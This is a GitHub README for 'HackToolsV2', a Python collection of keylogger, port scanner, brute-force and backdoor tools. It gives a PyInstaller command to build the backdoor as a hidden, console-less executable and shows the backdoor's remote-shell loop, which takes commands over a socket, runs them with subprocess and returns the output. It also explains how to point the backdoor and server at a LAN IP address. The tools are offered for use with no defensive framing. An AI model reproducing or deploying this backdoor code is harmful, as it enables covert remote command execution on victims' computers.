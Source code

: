 # HackToolsV2
Python Keylogger PortScanner BruteForce and basic hack tools.(new ones will(BackDoor) come soon)
![Ekran Alıntıs2ı](https://user-images.githubusercontent.com/69467096/112681821-46388780-8e80-11eb-89ab-7d1fc21476ea.PNG)
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112681920-66684680-8e80-11eb-8e59-552d65c3f1fb.PNG)

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)

## To make exe file write this code block to terminal
```python
pyinstaller backdoor.py --onefile --noconsole
```
### Additional codes:
#command = reliable_recv()
#message = 'Hello world'
#s.send(message.encode())

#s.recv(1024)
#execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

#result = execute.stdout.read() + execute.stderr.read()
#reliable_send(result)
```python
command = reliable_recv()
message = 'Hello world'
s.send(message.encode())

s.recv(1024)
execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

result = execute.stdout.read() + execute.stderr.read()
reliable_send(result)
```
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112891291-a4fc3c00-90e0-11eb-81bd-604dd01c9b0d.PNG)
### due to some complications in server.py and backdoor.py You must replace the code blocks that write 127.0.0.1 with the local IP address.
# LIKE THIS

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sck.bind(('127.0.0.1',5555))

s.connect(('127.0.0.1',5555))
```
# TO THIS
```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sck.bind(('192.1.2.12',5555))

s.connect(('192.1.2.12',5555))
```
# about deactivated lines of code
### some processes develop differently in your Linux and Windows operating systems.
### programs have been deactivated because some processes cannot run at the same time even if they are written in both.
### You can customize the lines of code you can also activate the startup codes I use to see if it works.

